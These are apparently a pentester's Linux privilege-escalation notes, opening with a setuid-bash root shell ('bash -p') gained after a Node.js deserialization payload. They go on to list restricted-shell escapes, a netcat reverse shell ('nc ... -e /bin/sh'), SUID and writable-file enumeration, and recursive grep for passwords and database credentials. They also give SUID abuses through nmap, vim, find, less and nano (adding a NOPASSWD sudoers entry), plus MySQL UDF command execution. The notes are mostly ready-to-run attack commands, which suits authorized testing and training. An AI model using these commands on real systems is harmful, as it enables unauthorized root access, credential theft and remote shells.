 * [setuid](#setuid)
  * [`bash -p`](#bash--p)
# SETUID
## `bash -p`
The payload which is being processed by the Node.js server, upon de-serialization sets the setuid bit on `/bin/bash` binary. We can check the same as follows 
```sh
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```
If a `setuid` bit is set on a binary, the binary can be executed with the effective user id of the user who owns the binary. In this case the setuid/setgid bit is set `on` `bash` which is owned by `root`.

By default, if the effective user id and the real user id are not equal, `bash` will set the effective user id to the real user id. In this case, the bash process will be started with the user `user`.

In order, to prevent the effective user id from resetting to the real user id, the `-p` option has to be passed. Upon running the command `bash -p`, the bash binary will run with effective user id `0`, providing a root shell.
```sh
$ bash -p
bash-4.4# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
bash-4.4# whoami
root
```

### Spawn Interactive Shell and set env  

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  

### Restricted bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

### Check environment 
Check any restricitions on any folders  
mount -l        >> any no exec or no suid?  

Check any unmounted drives  
cat /etc/fstab  

### SUID
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.  

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "User name that you are looking for" 2>/dev/null  

### Writable file and nobody files  
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files  
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files  

### Writable by current user  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  

### Any script files that we can modify?  
find / -writable -type f -name "*.py" 2>/dev/null     #find all python file that can be write by us  

ls -aRl / | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null       # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null    # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null        # Other  

find / -readable -type f 2>/dev/null               # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null   # Anyone  

### Any service running by root?  
ps aux|grep "root"  

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?  

### Find password  
grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always  

# Exploit Time
## SUID
#### Is suid bit set on these applications?

Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  
    
Vim  
    Modify system file, e.g. passwd?  
    
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  
    
find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  
    
Bash  
    bash -p      
            
More  
    
Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  
    
cp  
    Use cp to overwrite passwd with a new password  
    
### Is there a custom suid application?  
How can this application be run?  
Can be modify the path variable so that it will execute something else  

## NFS priv esc
https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

## Linux capability
find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null
getcap -r /

google that capability on how it can help us get root

## Mysql run by root
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library
https://www.exploit-db.com/exploits/1518/

You can also try
select sys_exec('echo test>/tmp/test.txt');
select sys_eval('echo test>/tmp/test.txt');

